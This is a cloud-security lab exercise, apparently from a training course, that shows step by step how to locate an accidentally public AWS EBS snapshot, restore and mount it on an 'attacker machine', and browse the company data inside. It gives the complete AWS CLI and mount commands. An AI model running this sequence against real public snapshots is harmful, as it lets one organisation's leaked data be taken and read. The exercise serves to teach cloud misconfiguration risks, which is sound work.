

# Discovering and pillaging EBS

## Introduction

Amazon Elastic Block Store (Amazon EBS) provides persistent block storage volumes for use with Amazon EC2 instances in the AWS Cloud. Each Amazon EBS volume is automatically replicated within its Availability Zone to protect you from component failure, offering high availability and durability. Amazon EBS volumes offer the consistent and low-latency performance needed to run your workloads.

## What are we going to cover?

This chapter is about finding a public EBS snapshot and working with it to discover interesting information.

In this exercise, we will

- Discover a snapshot that has been leaked accidentally on AWS
- Make a volume out of it
- Attach the volume to our attacker machine
- Mount the partition and browse the file system to find interesting information

## Steps to attack

In the EC2 console, under Elastic Block Store > Snapshots, search for 'company secrets'

You can also perform the above step using AWS CLI. On the student machine, run the following command. The AWS CLI part of the command lists all the publicly accessible EBS snapshots in `us-east-1` region across AWS. We are using grep to identify public EBS snapshots with certain patterns.

    aws ec2 describe-snapshots --region us-east-1 --restorable-by-user-ids all | grep -C 10 "company secrets"

This is a public snapshot from a different account, leaked accidentally

    snap-03616657ede4b9862

Obtain the availability zone and instance id of your attacker EC2 by running the command

    aws ec2 describe-instances --filters Name=tag:Name,Values=attacker-machine

Once the availability zone is obtained, insert it into the following command to create a new volume using the discovered snapshot

    aws ec2 create-volume --snapshot-id snap-03616657ede4b9862 --availability-zone <ZONE-HERE>

Once the volume is created, note the 'VolumeID'

Next step is to attach the newly created volume to the EC2 attacker machine using the instance id of your attacker EC2 and the volume id of the newly created volume

    aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

This may take some time. To check the status of the volume (it should say "in use")

    aws ec2 describe-volumes --filters Name=volume-id,Values=<VOLUME-ID>

Once the volume is attached, identify the partition using `lsblk` and mount it. **Run the following commands on the attacker machine as that is where the volume has been attached using the AWS CLI**

    sudo lsblk

    sudo mount /dev/xvdh1 /mnt

Access the secret company data at /mnt/home/ubuntu/companydata

    cd /mnt/home/ubuntu/companydata

## Additional references
- [Attach and mount EBS Volume](https://devopscube.com/mount-ebs-volume-ec2-instance/)
- [Challenge 4 - Flaws.cloud](https://warsang.ovh/flaws-cloud/)